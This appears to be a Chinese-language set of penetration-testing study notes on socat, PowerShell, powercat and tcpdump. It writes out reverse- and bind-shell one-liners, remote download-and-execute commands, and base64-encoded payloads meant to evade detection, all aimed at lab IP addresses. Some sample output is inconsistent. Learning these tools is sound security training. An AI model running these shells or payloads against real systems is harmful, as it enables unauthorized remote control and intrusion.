


# 工具

## Socat

> Socat是一个命令行实用程序，可建立两个双向字节流并在它们之间传输数据。 对于渗透测试，它类似于Netcat，但具有其他有用的功能。

### 基本使用

#### 连接

```bash
root@mkii:~# socat - TCP4:10.10.10.10:80
root@mkii-1:~# socat TCP4-LISTEN:80 STDOUT
```

***请注意，侦听器的协议（TCP4-LISTEN）和 STDOUT 参数都需要添加，以重定向标准输出。***

#### 传输文件

```bash
root@mkii:~# socat TCP4-LISTEN:443,fork file:test.txt
root@mkii-1:~# socat TCP4:10.10.10.10:443 file:new_test.txt,create
```

#### Reverse Shell
> `-d -d`选项以增加详细程度（显示致命，错误，警告和通知消息）,`EXEC`与nc的 `-e`性质一样

```bash
C:\Users\offsec> socat -d -d TCP4-LISTEN:443 STDOU
kali@kali:~$ socat TCP4:10.11.0.22:443 EXEC:/bin/bash

C:\Users\offsec>whoami
kali
```

#### 加密绑定shell（Encrypted Bind Shells）

* 首先使用`openssl`生成一个证书

`openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt`

| 参数 | 作用                 |
| ---- | -------------------- |
| req  | 发起新的证书签名请求 |
|-newkey| 生成一个新的私钥                   |
|rsa:2048|使用具有2,048位密钥长度的RSA加密。|
|-nodes|没有密码保护的情况下存储私钥|
|keyout|将密钥保存到文件|
|-x509|输出自签名证书而不是证书请求|
|-days|设置有效期（天）|
|-out|将证书保存到文件|



* 现在已经生成了密钥bind_shell.key和证书bind_shell.crt，我们首先需要将它们转换为socat将接受的格式。 为此，我们在创建加密的socat侦听器之前，将bind_shell.key和bind_shell.crt文件都合并为一个.pem。

`cat bind_shell.key bind_shell.crt > bind_shell.pem`

* 我们将使用OPENSSL-LISTEN选项在端口443上创建侦听器，cert = bind_shell.pem指定我们的证书文件，verify禁用SSL验证，并在与侦听器建立连接后派生一个子进程：

```bash
kali@kali:~$ sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash

C:\Users\offsec> socat -OPENSSL:10.11.0.4:443,verify=0
id
uid=1000(kali) gid=1000(kali) groups=1000(kali)
```

## PowerShell

### 基本使用

> PowerShell维护执行策略，该策略确定可以在系统上运行哪种类型的PowerShell脚本（如果有）。 默认策略为“受限”，这实际上意味着系统既不会加载PowerShell配置文件，也不会运行PowerShell脚本。 就本模块而言，我们将需要在Windows客户端计算机上设置“不受限制”的执行策略。 为此，我们单击Windows“开始”按钮，右键单击Windows PowerShell应用程序，然后选择“以管理员身份运行”。 当出现“用户帐户控制”提示时，选择“是”，然后输入“ Set-ExecutionPolicy Unrestricted”：

```powershell
Windows PowerShell
Copyright  (C) Microsoft Corporation. All rights reserved.
PS C:\WINDOWS\system32> Set-ExecutionPolicy

UnrestrictedExecution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose you to the security risks described in the about_Execution_Policies help topic at https:/go.microsoft.com/fwlink/?LinkID=135170.
Do you want to change the execution policy?
[Y] Yes  [A] Yes to All  [N] No  [L] No to All  [S] Suspend  [?] Help (default is "N"): y

PS C:\WINDOWS\system32> Get-ExecutionPolicyUnrestricted
```


#### 文件传输

```powershell
C:\Users\offsec> powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
```


#### Reverse Shell

```bash
kali@kali:~$ sudo nc -lnvp 443
listening on [any] 443...
```


```powershell
C:\Users\offsec> powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

#### Bind Shells

```powershell
C:\Users\offsec> powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' +(pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
```

```bash
kali@kali:~$ nc -nv 10.11.0.22 443
(UNKNOWN) [10.11.0.22] 443 (https) open
ipconfig
Windows IP Configuration
Ethernet adapter Local Area Connection:
Connection-specific DNS Suffix  . :
	IPv4 Address. . . . . . . . . . . : 10.11.0.22
	Subnet Mask . . . . . . . . . . . : 255.255.255.0
	Default Gateway . . . . . . . . . : 10.11.0.1
C:\Users\offsec>
```

## Powercat

> Powercat本质上是besimorhino编写的Netcat的PowerShell版本。我们可以利用PowerShell的优势并简化绑定/反向shell的创建
>
> 可以使用apt install powercat将Powercat安装在Kali中，该脚本会将脚本放置在/ usr / share / windows-resources / powercat

### 基本操作

#### 加载

```powershell
PS C:\Users\Offsec> . .\powercat.ps1  //本地执行
PS C:\Users\Offsec> iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')  //远程免下载执行。下载地址可改为kali的服务地址
```



#### 文件传输

```bash
kali@kali:~$ sudo nc -lnvp 443 > test.txt
```

```powershell
PS C:\Users\Offsec> powercat -c 10.11.0.4 -p 443 -i C:\Users\Offsec\test.txt
```

#### Reverse Shells

```bash
kali@kali:~$ sudo nc -lvp 443
```

```powershell
PS C:\Users\offsec> powercat -c 10.11.0.4 -p 443 -e cmd.exe
```

#### Bind Shells

```powershell
PS C:\Users\offsec> powercat -l -p 443 -e cmd.exe
```

```bash
kali@kali:~$ nc 10.11.0.22 443
Microsoft Windows [Version10.0.17134.590]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\offsec>
```

#### 独立Payloads

> Powercat也可以使用`-g`生成独立的有效负载。

```powershell
PS C:\Users\offsec> powercat -c 10.11.0.4 -p 443 -e cmd.exe -g > rshell.ps1  //生成
PS C:\Users\offsec> ./rshell.ps1  //执行
```

> 利用PowerShell执行Base64编码命令的特性，来使用`-ge`生成一个更加不易被检测的rshell

```powershell
PS C:\Users\offsec> powercat -c 10.11.0.4 -p 443 -e cmd.exe -ge > encodedrshell.ps1  //生成

PS C:\Users\offsec> powershell.exe -E ZgB1AG4AYwB0AGkAbwBuACAAUwB0AHIAZQBhAG0AMQBfAFMAZQB0AHUAcAAKAHsACgAKACAAIAAgACAAcABhAHIAYQBtACgAJABGAHUAbgBjAFMAZQB0AHUAcABWAGEAcgBzACkACgAgACAAIAAgACQAYwAsACQAbAAsACQAcAAsACQAdAAgAD0AIAAkAEYAdQBuAGMAUwBlAHQAdQBwAFYAYQByAHMACgAgACAAIAAgAGkAZgAoACQAZwBsAG8AYgBhAGwAOgBWAGUAcgBiAG8AcwBlACkAewAkAFYAZQByAGIAbwBzAGUAIAA9ACAAJABUAHIAdQBlAH0ACgAgACAAIAAgACQARgB1AG4AYwBWAGEAcgBzACAAPQAgAEAAewB9AAoAIAAgACAAIABpAGYAKAAhACQAbAApAAoAIAAgACAAIAB7AAoAIAAgACAAIAAgACAAJABGAHUAbgBjAFYAYQByAHMAWwAiAGwAIgBdACAAPQAgACQARgBhAGwAcwBlAAoAIAAgACAAIAAgACAAJABTAG8AYwBrAGUAdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAGMAcABDAGwAaQBlAG4AdAAKACAAIAAgAC  //64位编码的playload需要显示整个文件后把字符串传给powershell进行执行
```

## Tcpdump

* 已捕获的流量包查看

```bash
kali@kali:~$ sudo tcpdump -r test.pcap
reading from file password_cracking_filtered.pcap, link-type EN10MB (Ethernet)08:51:20.800917 IP 208.68.234.99.60509 > 172.16.40.10.81: Flags [S], seq 1855084074, win 14600, options [mss 1460,sackOK,TS val 25538253 ecr 0,nop,wscale 7], length 008:51:20.800953 IP 172.16.40.10.81 > 208.68.234.99.60509: Flags [S.], seq 4166855389, ack 1855084075, win 14480, options [mss 1460,sackOK,TS val 71430591 ecr 25538253,nop,wscale 4], length 008:51:20.801023 IP 208.68.234.99.60509 > 172.16.40.10.81: Flags [S], seq 1855084074, win 14600, options [mss 1460,sackOK,TS val 25538253 ecr 0,nop,wscale 7], length 008:51:20.801030 IP 172.16.40.10.81 > 208.68.234.99.60509: Flags [S.], seq 4166855389, ack 1855084075, win 14480, options [mss 1460,sackOK,TS val 71430591 ecr 25538253,nop,wscale 4], length 0
```

* 常规过滤

```bash
kali@kali:~$ sudo tcpdump -n -r test.pcap | awk -F" " '{print $3}' | sort | uniq -c | head

12324 172.16.40.10.8
18 208.68.234.99.32768
18 208.68.234.99.32769
18 208.68.234.99.32770
18 208.68.234.99.32771
18 208.68.234.99.32772
18 208.68.234.99.32773
...
```

* 其他过滤

`tcpdump -n src host 172.16.40.10 -r test.pcap`  

使用`src host`过滤源主机，`dst host`过滤目标主机，`-n port 80`过滤端口

`tcpdump -nX -r test.pcap`可以使用HEX和ASCII显示包

* 更多操作

https://www.cnblogs.com/ggjucheng/archive/2012/01/14/2322659.html